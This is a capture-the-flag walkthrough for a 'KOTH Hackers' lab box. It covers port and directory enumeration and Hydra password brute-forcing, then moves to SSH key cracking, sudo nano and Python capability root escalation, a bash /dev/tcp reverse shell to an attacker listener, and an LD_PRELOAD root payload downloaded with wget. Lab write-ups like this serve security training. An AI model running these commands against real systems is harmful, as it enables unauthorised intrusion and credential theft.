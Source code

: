 # KOTH HACKERS<br />

-------------
## IP: `10.10.228.111`<br />

----------------------
### Open Ports Via Nmap -<br />

`nmap -sC -sV 10.10.228.1115`

```
21
22
80
9999
```

![image](images/nmap.png)

----------------------
#### Subdirectories Via Gobuster -<br />

```
/news
/contact
/img
/staff
/backdoor
```

![image](images/gobuster.png)

----------------------
##### Login via ftp `anonymously` - <br />

> We'll get a note, which will give us usernames to brute-force (:

![image](images/anon.png)


> When we cat that note, we get-<br/>

![image](images/note.png)

------------------------
##### Gcrawford Credentials Via Hydra -<br/>

```
hydra -l gcrawford -P /usr/share/wordlists/rockyou.txt 10.10.228.111 ftp
```
![image](images/gcrawford.png)


username: gcrawford<br />
password: PAOLA<br />

> Login via ftp using these creds

![image](images/gcrawftp.png)

`We got id_rsa of gcrawford user from cd /.ssh/id_rsa`

> Since it's a protected private key we need to crack the passphrase for `id_rsa` of gcrawford using JohnTheRipper<br />

`ssh2john id_rsa > forjohn`

`john forjohn --wordlist=/usr/share/wordlists/rockyou.txt`

> We Got The Pass For Private Key

![image](images/john.png)


```
id_rsa:25192519 
```

`login via gcrawford using id_rsa`

```
ssh -i id_rsa gcrawford@10.10.228.111
```

##### privilege escalation of `gcrawford` user cuz of sudo ability over `nano`<br/>

`sudo -l`

We can see nano's [Gtfo-Bins](https://gtfobins.github.io/gtfobins/nano/)

```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

------------------------
##### Rcampbell Credentials Via Hydra -<br />

```
hydra -l rcampbell -P /usr/share/wordlists/rockyou.txt 10.10.228.111 ftp
``` 

![image](images/rcampbell.png)

username: rcampbell<br />
password: molly<br />

###### Login via ftp using rcampbell credentials -<br/>

`ftp 10.10.228.111`

![image](images/ftp.png)

##### Login via ssh with rcampbell with the same password of this user for ftp and search for `capabilities`<br />

```
getcap -r / 2>/dev/null
```
![image](images/capabilities.png)


> Now to get root, we can do -<br/>

```
python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
```
![image](images/rcamp.png)

##### Crack the password for [backdoor](http://10.10.228.111/backdoor)<br />

![image](images/backdoor.png)


```
hydra -l plague -P /usr/share/wordlists/rockyou.txt 10.10.228.111 http-post-form "/api/login:username=^USER^&password=^PASS^:Incorrect"
```
![image](images/plague.png)


username: plague<br />
password: twentyone<br />

> start a net-cat listener on your machine, and we can get a rev-shell using -<br/>

`nc -lnvp <port>`<br/>

```
bash -i >& /dev/tcp/<ip>/<port> 0>&1
```
![image](images/bash.png) ![image](images/nc.png)


##### You can get a rev shell with user `production` logged in and can achieve privilage escalation using this c code -<br />

Check out this blog for more on it [ld_preload-privesc](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/)

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`<br/>

![image](images/gcc.png)

> start a python server and transfer the shell.so to machine<br/>

`python3 -m http.server 80`<br/>

`wget <ip>/shell.so`<br/>

`chmod +x shell.so`<br/>

```
sudo openssl req -engine ./shell.so
```
![image](images/openssl.png)
